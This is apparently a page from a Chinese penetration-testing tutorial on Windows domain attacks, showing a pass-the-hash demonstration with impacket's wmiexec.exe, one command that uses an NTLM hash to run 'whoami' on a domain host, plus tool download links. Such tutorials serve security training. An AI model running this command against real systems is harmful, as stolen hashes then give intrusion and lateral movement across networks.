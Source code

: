 > 原文：[http://book.iwonder.run/域渗透/4.2.4.2.html](http://book.iwonder.run/域渗透/4.2.4.2.html)

#### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami" 
```

![image](img/3c8ddbc577f1f4a711408cd7158117fd.png)

![image](img/167a9fc301000c4666639f3a417f780e.png)

下载地址:

> impacket-examples-windows:

[https://github.com/maaaaz/impacket-examples-windows/releases](https://github.com/maaaaz/impacket-examples-windows/releases)

> impacket:

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

